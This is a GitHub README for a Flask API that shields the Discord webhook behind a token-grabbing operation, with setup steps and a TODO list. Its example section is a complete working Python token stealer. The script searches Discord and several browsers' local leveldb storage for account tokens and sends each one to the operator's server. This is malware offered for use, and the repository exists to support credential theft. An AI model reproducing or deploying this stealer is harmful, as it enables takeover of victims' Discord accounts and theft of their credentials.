# Discord Webhook Protection

 A simple Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1'  # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw' # change to your secret defined in config.json

# constants
API_URL = f'http://{API_IP}:{API_PORT}/grab?secret={SECRET}&token=%s'
LOCAL = os.getenv('LOCALAPPDATA')
ROAMING = os.getenv('APPDATA')
PATHS = {
    'Discord': ROAMING + '\\Discord',
    'Discord Canary': ROAMING + '\\discordcanary',
    'Discord PTB': ROAMING + '\\discordptb',
    'Google Chrome': LOCAL + '\\Google\\Chrome\\User Data\\Default',
    'Opera': ROAMING + '\\Opera Software\\Opera Stable',
    'Brave': LOCAL + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
    'Yandex': LOCAL + '\\Yandex\\YandexBrowser\\User Data\\Default'
}

tokens = []

for platform, path in PATHS.items():
    if os.path.exists(path) is False:
        continue

    path += '\\Local Storage\\leveldb'

    for file_name in os.listdir(path):
        if not file_name[-4:] in ('.log', 'ldb'):
            continue

        with open(f'{path}\\{file_name}', errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if line == "":
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

if len(tokens) == 0:
    exit()

for token in tokens:
    try:
        res = requests.get(API_URL % token)  # sends token to your API
    except:
        pass
```

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py`

## TODO

[ ] Set up a MySQL database to store tokens, used to prevent dupes
[ ] IP-address based rate limit to prevent abusers from flooding the API
[ ] Support multiple tokens in a single request using `,` seperator
